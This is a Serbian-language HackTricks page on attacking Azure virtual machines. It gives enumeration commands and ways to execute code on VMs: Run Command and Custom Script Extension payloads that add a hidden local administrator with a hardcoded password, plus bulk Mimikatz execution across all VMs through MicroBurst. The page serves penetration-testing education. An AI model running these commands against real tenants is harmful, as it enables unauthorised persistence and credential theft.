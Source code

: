 # Az - Virtuelne mašine i mreža

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS-a:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Osnovne informacije

[Od dokumenata:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure virtuelne mašine su jedan od nekoliko tipova [resursa za računanje koji se mogu skalirati po potrebi](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) koje Azure nudi. Obično birate virtuelnu mašinu kada vam je potrebna veća kontrola nad računarskim okruženjem nego što to nude ostale opcije. Ovaj članak pruža informacije o tome šta treba da uzmete u obzir pre nego što kreirate virtuelnu mašinu, kako je kreirate i kako je upravljate.

## Azure mrežne informacije

Azure mreže sadrže **različite entitete i načine konfigurisanja.** Možete pronaći kratke **opise,** **primere** i **komande za enumeraciju** različitih entiteta Azure mreže u:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** nudi sigurno, potpuno upravljano rešenje za pristup preko RDP (Remote Desktop Protocol) i SSH (Secure Shell) preko SSL-a putem Azure portala. Integriran je unutar Azure virtuelne mreže, omogućavajući RDP i SSH povezivost sa VM-ovima koristeći privatne IP adrese, izbegavajući potrebu za javnim IP adresama. Ovo ga čini sigurnijom, praktičnijom alternativom tradicionalnim metodama koje uključuju dodeljivanje javnih IP adresa i konfiguracije pravila NSG za pristup VM-ovima. Razvojni inženjeri i IT osoblje mogu sigurno pristupiti VM-ovima sa Azure portala koristeći svoje web pretraživače, olakšavajući proces za razvojna i testna okruženja.

Da biste videli sve Azure Bastion Host-ove u vašoj pretplati, možete koristiti sledeću komandu:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Enumeracija virtuelnih mašina
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Pokretanje komandi u virtuelnoj mašini**

### **AAD prijava u virtuelnoj mašini**

Moguće je omogućiti pristup korisnicima koji su autentifikovani putem AzureAD. Na primer, pokušavajući pristupiti **linux virtuelnoj mašini**: `ssh korisničkoime@azure-corp.com@1.1.1.1` (važno je **koristiti email** sa azurecorp koji je korišćen prilikom pokušaja prijave) možete dobiti grešku kao što je:
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Samo **pratite te instrukcije** odlaskom na [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) i navođenjem koda, koristite email i lozinku kao akreditive i bićete u mogućnosti da se povežete putem SSH-a (ako taj korisnik ima dovoljno dozvola da to uradi: `Virtual Machine Administrator Login` ili `Virtual Machine User Login` uloga).

### **Pokreni komandu**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Pokreni proširenje prilagođenog skripta**

Proširenja virtuelne mašine (VM) u Azure-u su **male aplikacije** koje pružaju konfiguraciju nakon implementacije i automatizaciju **zadataka** na **Azure VM-ovima**. Na primer, ako virtuelna mašina zahteva instalaciju softvera, zaštitu od virusa ili mogućnost pokretanja skripta unutar nje, možete koristiti proširenje VM-a.

Stoga, ako imate pristup za pisanje, možete izvršiti proizvoljan kod:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### ŽeljenoStanjeKonfiguracije (DSC)

ŽeljenoStanjeKonfiguracije (DSC) je alatka u PowerShell-u slična Ansible-u, korišćena za postavljanje hosta putem koda. DSC se integriše sa Azure-om, omogućavajući otpremanje specifičnih konfiguracionih fajlova. Ovi fajlovi moraju biti u skladu sa strogo definisanim sintaksom. Važno je napomenuti da DSC ekstenzija u Azure-u može izvršavati komande iz fajlova koji ispunjavaju određene kriterijume formatiranja, čak i ako sintaksa nije ispravna prema DSC standardima, kao što je prikazano na priloženoj slici.

Izvršavanje ovih komandi olakšano je kroz funkciju [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) u Az PowerShell-u. Zahtevi uključuju **.PS1** fajl sa definisanom funkcijom i fajl mora biti zapakovan u **.zip** fajl. Iako sintaksa možda nije tačna za DSC, kod će i dalje biti izvršen. Međutim, ekstenzija će označiti status izvršavanja kao "neuspeh", i nijedan izlaz iz komande neće biti vidljiv zbog toga što je status prebrisao poruku o neuspehu.

### Definicije Aplikacija na VM-ovima

Definicije Aplikacija na VM-ovima omogućavaju ponovljivo implementiranje verzionisanih aplikacija na Azure VM-ove. Ovaj resurs podržava implementaciju i ažuriranje aplikacija na VM-ovima. Za postavljanje ovoga, potrebno je sprovesti nekoliko koraka, uključujući komande poput **`New-AzGalleryApplication`** i **`New-AzGalleryApplicationVersion`** u Az PowerShell-u.

Izvršavanje aplikacija ili komandi putem ovog metoda uključuje **"VMAppExtension"**, koji se automatski instalira kada se aplikacija primeni na VM. Ekstenzija preuzima fajl sa određenog URI-ja i naziva ga tačno kao aplikacija, bez ekstenzije. Da bi se fajl pravilno izvršio, polje "ManageActions" u REST API pozivu mora biti konfigurisano da preimenuje fajl sa odgovarajućom ekstenzijom. Postavljanje ovog metoda, kada je završeno, će ličiti na strukturu prikazanu na priloženoj slici.

Međutim, ovaj metod izvršavanja je relativno spor, potrebno je oko 3-4 minuta da se izvrši aplikacija ili komanda. Fajlovi vezani za ovaj proces se čuvaju u specifičnim direktorijumima (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` za kopiranje aplikacije i `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` za status izvršavanja).

Oba tehnika pružaju jedinstvene načine izvršavanja komandi i implementiranja aplikacija u Azure okruženjima, svaki sa svojim setom zahteva, koraka i razmatranja.

### Grupa Hibridnih Radnih Grupa (HWGs) u Azure-u

[**Hibridne Radne Grupe (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) su funkcionalnost u Azure-u koja omogućava Runbook-ove, konfigurisane u Automation Account-u, da se izvrše na Azure Virtual Machine (VM) koja je deo određene HWG. Ovo izvršavanje je olakšano kroz ekstenziju instaliranu na VM-u, koja implementira Runbook kod na VM. Značajan aspekt ovog procesa je da stvarne akreditacije nisu faktor u izvršavanju jer kod radi sa povišenim privilegijama, specifično kao **SYSTEM** ili root, kao što je ilustrovano na priloženoj slici.

Važan detalj za one koji koriste Windows 10 VM-ove je neophodnost specificiranja PowerShell verzije za Runbook. Trebalo bi postaviti da se izvršava kao PowerShell Verzija 5.1 umesto 7.1. Ovaj zahtev proizilazi iz činjenice da PowerShell 7.1 nije instaliran podrazumevano na ovim VM-ovima, što dovodi do neuspeha u izvršavanju skripta ako je specificirana verzija 7.1.

Ova funkcionalnost Azure-a nudi robustan metod za automatizaciju i upravljanje zadacima širom hibridnih okruženja, omogućavajući centralizovano upravljanje i izvršavanje zadataka na Azure VM-ovima.


## Reference

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

